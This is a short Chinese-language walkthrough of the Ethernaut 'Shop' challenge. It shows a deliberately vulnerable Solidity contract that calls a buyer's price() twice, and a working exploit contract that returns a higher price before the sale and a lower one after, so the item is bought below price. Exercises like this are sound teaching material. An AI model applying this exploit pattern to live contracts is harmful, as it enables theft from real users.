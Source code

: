 # Ethernaut 21-Shop

## 本关目标

- 以低于 price 的价格购买商品

## 合约分析

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    // 调用buyer的价格高于商品价格并且商品没有出售
    if (_buyer.price() >= price && !isSold) {
      isSold = true; // 进来首先设置商品出售
      price = _buyer.price(); // 再次调用修改价格
    }
  }
}
```

## 解决方案

1. 构造 Hack 合约，提供 price()方法，在其中根据 isSold 来设置 price，isSold=false，返回 101，当 isSold 被修改为 true 时，再次调用 price 返回 80， 这样就修改 price 小于之前价格

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./Shop.sol";

contract Hack{

    Shop private shop;
    constructor(address target){
        shop = Shop(target);
    }

    function hack() external {
        shop.buy();
    }

    function price() external view returns(uint){
        if(shop.isSold()) {
            return 80;
        } else {
            return 101;
        }
    }
}
```
